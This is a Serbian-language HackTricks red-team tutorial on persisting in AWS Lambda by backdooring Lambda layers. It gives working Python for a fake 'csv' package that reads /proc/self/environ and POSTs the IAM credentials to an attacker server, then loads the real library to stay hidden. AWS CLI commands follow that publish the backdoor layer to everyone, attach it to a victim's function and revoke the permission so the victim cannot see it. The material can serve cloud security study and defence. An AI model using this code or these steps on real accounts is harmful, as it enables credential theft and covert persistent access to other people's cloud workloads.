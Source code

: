 # AWS - Perzistencija Lambda slojeva

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lambda Slojevi

Lambda sloj je .zip arhiva koja **može sadržati dodatni kod** ili drugi sadržaj. Sloj može sadržati biblioteke, [prilagođeno izvršno okruženje](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione fajlove.

Moguće je uključiti do **pet slojeva po funkciji**. Kada uključite sloj u funkciju, **sadržaj se izvlači u direktorijum `/opt`** u okruženju izvršenja.

Po **podrazumevanim podešavanjima**, **slojevi** koje kreirate su **privatni** za vaš AWS nalog. Možete odabrati da **podelite** sloj sa drugim nalozima ili da ga **učinite** javnim. Ako vaše funkcije koriste sloj koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju sloja nakon što je obrisan, ili nakon što vam je dozvola za pristup sloju opozvana**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći obrisnu verziju sloja.

Funkcije implementirane kao kontejnerska slika ne koriste slojeve. Umesto toga, pakujete svoje preferirano izvršno okruženje, biblioteke i druge zavisnosti u kontejnersku sliku prilikom izgradnje slike.

### Putanja učitavanja za Python

Putanja učitavanja koju će Python koristiti u lambdi je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako su **drugi** i treći **položaj** zauzeti direktorijumima gde **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci zadnja vrata** u korišćeni lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljni kod kada se učita zajednička biblioteka**, moći će da izvrši zlonamerni kod pri svakom pozivu lambda funkcije.
{% endhint %}

Stoga su potrebni sledeći uslovi:

* **Proveriti biblioteke** koje se **učitavaju** u kodu žrtve
* Kreirati **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitati originalnu** biblioteku.

### Prethodno učitane biblioteke

{% hint style="warning" %}
Prilikom zloupotrebe ove tehnike naišao sam na poteškoću: Nekolike biblioteke su **već učitane** u python okruženju prilikom izvršavanja vašeg koda. Očekivao sam da ću pronaći stvari poput `os` ili `sys`, ali **čak je i biblioteka `json` bila učitana**.\
Da bi se zloupotrebila ova tehnika upornosti, kod mora **učitati novu biblioteku koja nije učitana** prilikom izvršavanja koda.
{% endhint %}

Pomoću python koda poput ovog moguće je dobiti **listu biblioteka koje su prethodno učitane** unutar python okruženja u lambdi:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke poput `os` ili `json` već tamo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda podrazumevano instalira**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

U ovom primeru pretpostavimo da ciljni kod uvozi **`csv`**. Backdoor-ovaćemo uvoz biblioteke `csv`.

Da bismo to uradili, **kreiraćemo direktorijum csv** sa fajlom **`__init__.py`** u njemu na putanji koju učitava lambda: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naš **`__init__.py` fajl će biti učitan i izvršen**.\
Ovaj fajl mora:

* Izvršiti naš payload
* Učitati originalnu csv biblioteku

To možemo uraditi sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, napravite zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda sloj.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM kredencijale serveru PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali se mogu integrisati i **druge tehnike** kao što su sledeće:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Spoljni slojevi

Imajte na umu da je moguće koristiti **lambda slojeve iz spoljnih naloga**. Štaviše, lambda može koristiti sloj iz spoljnog naloga čak i ako nema dozvole.\
Takođe imajte na umu da je **maksimalan broj slojeva koje lambda može imati 5**.

Stoga, kako bi se poboljšala univerzalnost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći sloj korisnika (ništa nije spoljno)
* **Napraviti** **sloj** u **svom nalogu**, dati **pristup korisničkom nalogu** da koristi sloj, **konfigurisati** **sloj** u Lambda korisnika i **ukloniti dozvolu**.
* Lambda će i dalje moći da **koristi sloj** i žrtva neće imati jednostavan način da **preuzme kod slojeva** (osim ako dobije rev šel unutar lambe)
* Žrtva **neće videti spoljne slojeve** korišćene sa **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
